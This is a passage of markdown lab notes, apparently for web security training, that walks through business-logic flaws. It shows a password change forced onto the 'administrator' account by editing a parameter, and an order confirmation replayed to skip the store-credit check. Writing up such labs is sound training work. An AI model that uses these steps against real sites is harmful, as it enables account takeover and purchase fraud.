     - Set the **username** as **administrator** and repeat the request again, then logout and login as **administrator**.

    ```plaintext
    https://<lab_url>/my-account/change-password    POST    (csrf=...&username=administrator&new-password-1=psycho&new-password-2=psycho)
    ```

3. #### **Password reset broken logic** (repeated)

    > 📝 **Note:**
    <mark>This example is located within the **Vulnerabilities in other authentication mechanisms**
    section of the **Authentication** topic.</mark>

4. #### **2FA simple bypass** (repeated)

    > 📝 **Note:**
    <mark>This example is located within the **Vulnerabilities in multi-factor authentication**
    section of the **Authentication** topic.</mark>

5. #### **Insufficient workflow validation**

    - After login try to buy the product and take note of the URL flow and the parameters sent, the message  
    ***Not enough store credit for this purchase*** will appear when you try to **Place order**.

    ```plaintext
    ...
    https://<lab_url>/cart                      POST    (productId=1&redir=PRODUCT&quantity=1)
    ...
    https://<lab_url>/cart/checkout             POST    (csrf=...)
    https://<lab_url>/cart                      GET     (err=INSUFFICIENT_FUNDS)
    ...
    ```

    - **Remove** the product from the cart.
    - Repeat the purchase process with another product you can afford with your current balance
    and take note of the URL flow and the parameters sent, the message  
    ***Your order is on its way!*** will appear when you **Place order**.

    ```plaintext
    ...
    https://<lab_url>/cart                      POST    (productId=2&redir=PRODUCT&quantity=1)
    ...
    https://<lab_url>/cart/checkout             POST    (csrf=...)
    https://<lab_url>/cart/order-confirmation   GET     (order-confirmed=true)
    ...
    ```

    - Send the first **/cart POST** and the second **/cart/order-confirmation GET** requests to the
    **Repeater**.
    - Repeat both requests.

6. #### **Authentication bypass via flawed state machine**

    - Login and take note of the URL flow and the parameters sent.
